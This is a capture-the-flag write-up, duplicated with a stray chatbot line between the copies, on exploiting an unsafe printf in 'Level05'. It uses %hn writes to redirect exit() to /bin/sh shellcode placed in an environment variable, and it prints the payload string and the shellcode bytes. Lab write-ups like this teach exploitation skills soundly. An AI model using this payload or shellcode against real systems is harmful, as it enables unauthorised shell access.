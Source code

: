 # Level05 – Format String Exploit

This level has a protected fgets input (no buffer overflow), but an unsafe printf without a format string and a call to exit()—which we can exploit.

## Key Differences
The target value is too large for a simple %n write.

Function addresses differ between debugger and real execution.

## Using %hn Instead of %n

%n writes 4 bytes, %hn writes 2 bytes.

To overwrite exit() at 0x080497e0, we split it:

Write lower 2 bytes at 0x080497e0

Write upper 2 bytes at 0x080497e2

Stack offset: input starts at the 10th argument (%10$hn), each 4 bytes:


%10$hn -> writes to 0x080497e0

%11$hn -> writes to 0x080497e2

## Example Payload

Goal: Write value 0xffffd6b8 (address of shellcode in env)

Lower: 0xd6b8 = 54968

Upper: 0xffff = 65535 → 65535 - 54968 = 10567

### Payload:


    "\xe2\x97\x04\x08" + "\xe0\x97\x04\x08" + "%54960x%11$hn" + "%10559x%10$hn"
    (Adjusting for the 8 bytes already printed by addresses)

Shellcode in Environment
Export shellcode:

    export SHELLCODE=$(python -c 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')
Get its address:


    env -i SHELLCODE=... ./level05
Example result:

    0xffffd91a
Use this address as the value to overwrite exit()—when triggered, it jumps to your shellcode.

Let me know if you'd like this formatted for a specific platform (like GitHub-flavored Markdown).








# Level05 – Format String Exploit

This level has a protected `fgets` input (no buffer overflow), but an unsafe `printf` without a format string and a call to `exit()` — which we can exploit.

## Key Differences

- The target value is too large for a simple `%n` write.
- Function addresses differ between debugger and real execution.

## Using %hn Instead of %n

- `%n` writes 4 bytes, `%hn` writes 2 bytes.
- To overwrite `exit()` at `0x080497e0`, we split it:

  - Write lower 2 bytes at `0x080497e0`
  - Write upper 2 bytes at `0x080497e2`

- Stack offset: input starts at the 10th argument (`%10$hn`), each 4 bytes:

  - `%10$hn` → writes to `0x080497e0`
  - `%11$hn` → writes to `0x080497e2`

## Example Payload

**Goal**: Write value `0xffffd6b8` (address of shellcode in environment)

- Lower: `0xd6b8` = 54968
- Upper: `0xffff` = 65535 → `65535 - 54968 = 10567`

### Payload:

    "\xe2\x97\x04\x08" + "\xe0\x97\x04\x08" + "%54960x%11$hn" + "%10559x%10$hn"

    *(Adjusting for the 8 bytes already printed by addresses)*

## Shellcode in Environment

Export shellcode:

```bash
export SHELLCODE=$(python -c 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')
```
Get its address:

```bash
env -i SHELLCODE=... ./level05
```
Example result:

    0xffffd91a

Use this address as the value to overwrite exit() — when triggered, it jumps to your shellcode.
